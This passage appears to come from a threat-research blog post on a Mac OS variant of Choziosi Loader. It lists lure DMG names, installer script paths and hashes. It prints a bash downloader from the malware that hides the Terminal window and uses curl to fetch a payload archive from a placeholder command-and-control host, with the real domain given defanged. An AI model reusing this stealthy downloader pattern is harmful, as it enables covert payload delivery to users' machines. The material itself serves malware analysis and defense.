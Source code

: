 ## Mac OS Choziosi Loader Variant
In March of 2022 variants of Choziosi Loader targeting Mac OS users were uploaded to VirusTotal. Two recent examples of Choziosi Loader targetting Mac OS users are:
- Your File Is Ready To Download.dmg
  - 121300cd7050da8a1debf684f03ba05a
- Star Wars Battlefront 2 [Xbox Classic].dmg
  - a5625269e2d817258ad60044f853040e95d58b47

Theses downloads prompt the user to run malware titled "Application Installer".

![Sandbox1](/assets/img/choziosi/sandbox1.jpg)

**Persistence & Payload Delivery**

Recent Choziosi Loader samples have been observed delivering Safari extensions as well as Chrome extensions. Two recent example installer scripts are:  
- /Volumes/Application Installer/SafariInstaller.command
  - 98e0e2863f411c6d2b7a5acabc9f234f
- /Volumes/Application Installer/ChromeInstaller.command
  - 08dc5ad1b6cc00e129526b9054a06e4e

In this code snippet the threat actor command and control is funbeachdude[.]com. For the sake of this blog i've replaced value that with example_c2_server.com within the example.

**Example: Downloader component**

```
#!/bin/bash

osascript -e 'tell application "Terminal" to set visible of front window to false'

BPATH="/private/var/tmp"
IPATH=$(uuidgen)

EXISTS=`launchctl list | grep "chrome.extension"`
SUB=chrome.extension
if [[ "$EXISTS" == *"$SUB"* ]]; then
  exit 0
fi

status_code=$(curl --write-out %{http_code} --head --silent --output /dev/null https://example_c2_server.com/archive.zip  )
if [[ "$status_code" = 200 ]] ; then
  curl -s https://example_c2_server.com/archive.zip > $BPATH/$IPATH.zip /dev/null
else
  exit 0
fi

sleep 1
```